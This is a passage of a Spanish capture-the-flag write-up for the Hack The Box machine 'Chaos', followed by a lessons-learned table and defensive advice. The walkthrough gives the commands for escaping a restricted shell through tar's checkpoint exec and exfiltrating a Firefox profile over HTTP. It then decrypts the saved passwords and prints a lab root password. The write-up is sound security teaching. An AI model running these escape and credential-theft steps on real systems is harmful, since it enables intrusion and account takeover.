

```bash
tar cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```



> 💡 `tar` permite ejecutar un comando arbitrario como "acción de checkpoint" durante el procesado del archivo — en este caso, lanzar `/bin/bash`. Esto nos saca del `rbash`, pero el **`PATH`** sigue restringido, así que comandos básicos como `groups` fallan («command not found»).

Confirmamos el problema:

```bash
ls
```

```
Command 'ls' is available in '/bin/ls'
The command could not be located because '/bin' is not included in the PATH environment variable.
```



```bash
echo $PATH
```

```
/home/ayush/.app
```



Reparamos el `PATH` manualmente:

```bash
export PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
```



Con un shell completo y funcional, listamos el directorio personal de `ayush`:

```bash
ls -la
```



Además de `user.txt`, destaca una carpeta **`.mozilla`** — perfil de **Firefox** del usuario, que puede contener contraseñas guardadas.

```bash
cd .mozilla/firefox
ls -la
```



Hay un perfil (`bzo7sjt1.default`) con su `profiles.ini`. Para extraer las credenciales guardadas necesitamos analizarlo con una herramienta especializada (`firefox_decrypt`), así que servimos todo el directorio del perfil por HTTP desde la máquina víctima:

```bash
python3 -m http.server 8000
```



Y, desde nuestra máquina atacante, lo descargamos recursivamente para tener una copia local completa del perfil:

```bash
wget -r chaos.htb:8000
```



Con el perfil ya en local, usamos [firefox_decrypt](https://github.com/unode/firefox_decrypt/) para volcar las credenciales guardadas en el navegador:

```bash
python3 firefox_decrypt.py /home/arabot/Documentos/HTB/eJPTv2/chaos/content/chaos.htb:8000
```



```
Website:  https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
```

> 💡 De nuevo aparece **Webmin (puerto 10000)** — el navegador de `ayush` tenía guardada la contraseña de `root` que él mismo usaba para entrar al panel. Probamos si esa misma contraseña también es la del usuario `root` del sistema operativo.

```bash
su root
```



`whoami` confirma acceso como **root**.

## 5. Post-explotación y flags

Con shell de root confirmada (`root@chaos:/home/ayush/.mozilla/firefox# whoami` → `root`), el compromiso total del sistema queda acreditado. Las capturas disponibles muestran la existencia de `user.txt` en el listado del directorio de `ayush`, pero no su lectura explícita ni la de `root.txt`, por lo que no se documenta aquí su contenido.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| Bloqueo de IP directa que obliga a usar vhost, pero sin ocultar realmente el contenido | Apache puerto 80 | Un simple `gobuster` sobre la IP revela la ruta que delata el vhost real |
| Post de WordPress "protegido" sin protección real | `wordpress.chaos.htb` | Filtra credenciales de correo en texto plano |
| Cifrado casero (AES con clave SHA256 de una contraseña débil y predecible) | Script `en.py` / correo de Ayush | La "seguridad" del cifrado depende enteramente de una contraseña trivial de adivinar por contexto |
| Ruta oculta ("seguridad por oscuridad") como único control de acceso a un servicio en desarrollo | `/J00_w1ll_f1Nd_n07H1n9_H3r3/` | Cualquiera que llegue a la URL (por el medio que sea) accede sin más control |
| `\write18` de LaTeX habilitado en el motor pdfTeX del generador de PDF | Servicio de generación de PDF | Ejecución remota de comandos (RCE) con los privilegios del proceso web |
| Shell restringido (`rbash`) con un comando peligroso (`tar`) permitido | Usuario `ayush` | Escape trivial documentado en GTFOBins |
| `PATH` manipulado como único mecanismo de restricción adicional | Usuario `ayush` | Se repara con un simple `export PATH=...`, sin protección real |
| Contraseña de `root` guardada en el gestor de contraseñas de Firefox | Perfil de `ayush` | Cualquiera con acceso al sistema de ficheros del usuario puede robarla y escalar a root |
| Reutilización de contraseñas entre servicios y cuentas de sistema | `ayush:jiujitsu` (correo y sistema), password de Webmin reutilizada como password de `root` | Comprometer una credencial débil compromete múltiples sistemas relacionados |

## Recomendaciones defensivas

- No usar contraseñas triviales o basadas en contexto obvio (nombres, apodos) ni siquiera para cifrado "temporal" de mensajes internos.
- No depender de rutas ocultas como control de acceso; todo servicio, aunque esté "en desarrollo", debe requerir autenticación.
- Deshabilitar `\write18` (modo shell-escape) en cualquier motor LaTeX que procese contenido de usuarios no confiables (`pdflatex -no-shell-escape`).
- Sanitizar y escapar cualquier input insertado dentro de una plantilla que se compila o interpreta en el servidor (LaTeX, Jinja2, etc.).
- Configurar correctamente los shells restringidos: auditar qué binarios quedan accesibles (evitar `tar`, `vim`, `find`, `less`, etc. sin restricciones adicionales — ver GTFOBins) y no depender únicamente de manipular el `PATH`.
- No guardar contraseñas de administración (Webmin, paneles, sistemas críticos) en el gestor de contraseñas del navegador sin cifrado adicional o gestor dedicado.
- No reutilizar contraseñas entre cuentas de correo, servicios web y cuentas del sistema operativo.
- Auditar el `/etc/passwd`/PAM para revisar qué usuarios tienen shells restringidos y si esa restricción es realmente efectiva.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
